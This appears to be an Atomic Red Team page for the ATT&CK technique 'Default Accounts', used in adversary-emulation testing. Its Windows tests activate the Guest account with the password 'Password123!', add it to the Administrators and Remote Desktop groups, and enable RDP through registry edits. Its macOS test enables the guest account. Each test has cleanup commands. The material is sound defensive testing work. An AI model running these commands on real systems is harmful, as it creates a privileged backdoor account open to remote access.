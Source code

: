 # T1078.001 - Valid Accounts: Default Accounts

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/001)

<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems. Default accounts also include default factory/provider set accounts on other types of systems, software, or devices, including the root user account in AWS and the default service account in Kubernetes.(Citation: Microsoft Local Accounts Feb 2019)(Citation: AWS Root User)(Citation: Threat Matrix for Kubernetes)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin privileges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-privileges)

- [Atomic Test #2 - Activate Guest Account](#atomic-test-2---activate-guest-account)

- [Atomic Test #3 - Enable Guest Account on macOS](#atomic-test-3---enable-guest-account-on-macos)

<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin privileges

After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group,
and desktop will allow multiple RDP connections.

**Supported Platforms:** Windows

**auto_generated_guid:** 99747561-ed8d-47f2-9c91-1e5fde1ed6e0

#### Inputs:

| Name                             | Description                                                      | Type    | Default Value        |
| -------------------------------- | ---------------------------------------------------------------- | ------- | -------------------- |
| guest_user                       | Specify the guest account                                        | string  | guest                |
| guest_password                   | Specify the guest password                                       | string  | Password123!         |
| local_admin_group                | Specify the admin localgroup name                                | string  | Administrators       |
| remote_desktop_users_group_name  | Specify the remote desktop users group name                      | string  | Remote Desktop Users |
| remove_rdp_access_during_cleanup | Set to 1 if you want the cleanup to remove RDP access to machine | integer | 0                    |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup #{local_admin_group} #{guest_user} /add
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:

```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup #{local_admin_group} #{guest_user} /delete >nul 2>&1
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /delete >nul 2>&1
if #{remove_rdp_access_during_cleanup} NEQ 1 (echo Note: set remove_rdp_access_during_cleanup input argument to disable RDP access during cleanup)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1)
```

<br/>
<br/>

## Atomic Test #2 - Activate Guest Account

The Adversaries can activate the default Guest user. The guest account is inactivated by default

**Supported Platforms:** Windows

**auto_generated_guid:** aa6cb8c4-b582-4f8e-b677-37733914abda

#### Inputs:

| Name       | Description               | Type   | Default Value |
| ---------- | ------------------------- | ------ | ------------- |
| guest_user | Specify the guest account | string | guest         |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
net user #{guest_user} /active:yes
```

#### Cleanup Commands:

```cmd
net user #{guest_user} /active:no
```

<br/>
<br/>

## Atomic Test #3 - Enable Guest Account on macOS

This test enables the guest account on macOS using sysadminctl utility.

**Supported Platforms:** macOS

**auto_generated_guid:** 0315bdff-4178-47e9-81e4-f31a6d23f7e4

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
sudo sysadminctl -guestAccount on
```

#### Cleanup Commands:

```cmd
sudo sysadminctl -guestAccount off
```

<br/>
